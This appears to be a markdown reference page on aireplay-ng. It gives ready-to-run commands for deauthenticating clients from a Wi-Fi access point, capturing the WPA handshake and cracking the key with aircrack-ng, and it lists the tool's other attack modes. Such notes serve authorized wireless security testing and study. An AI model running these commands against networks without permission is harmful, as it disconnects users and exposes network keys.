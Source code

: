 # aireplay-ng

Used to inject/replay frames. The primary function is to generate traffic for later use in aircrack-ng for cracking the WEP and WPA-PSK keys. For example, looking for the four-way handshake message during a deauthentication injection tests. Make sure that both the BSSID and CHANNEL are set correctly prior to injections.

Here's the normal workflow.

* Run [setup](../setup.md) first

```bash

sudo airmon-ng -c $CHANNEL $DEVICE

# Terminal 1
sudo airodump-ng -c $CHANNEL --bssid $BSSID --output-format pcap -w $TAG $INTERFACE

# Terminal 2
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Wait for found handshake message from airodump-ng then stop everything

# Crack the key
sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

## Commands

```bash
# Test if injection works for given interface
sudo aireplay-ng --test $INTERFACE

# Test injection between two interfaces (if two exists)
sudo aireplay-ng --test -i $INTERFACE2 $INTERFACE

# Test injection in a specific AP
sudo aireplay-ng -e $SSID -a $BSSID $INTERFACE

# Test injection in a specific AP without expecting to receive probes
sudo aireplay-ng -e $SSID -a $BSSID -D $INTERFACE

# Deauthenticate a specific client connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Deauthenticate ALL clients connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID $INTERFACE
```

## Attack Modes

```bash
aireplay-ng --help

Attack modes (numbers can still be used):

    --deauth      count : deauthenticate 1 or all stations (-0)
    --fakeauth    delay : fake authentication with AP (-1)
    --interactive       : interactive frame selection (-2)
    --arpreplay         : standard ARP-request replay (-3)
    --chopchop          : decrypt/chopchop WEP packet (-4)
    --fragment          : generates valid keystream   (-5)
    --caffe-latte       : query a client for new IVs  (-6)
    --cfrag             : fragments against a client  (-7)
    --migmode           : attacks WPA migration mode  (-8)
    --test              : tests injection and quality (-9)
```

## References

* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
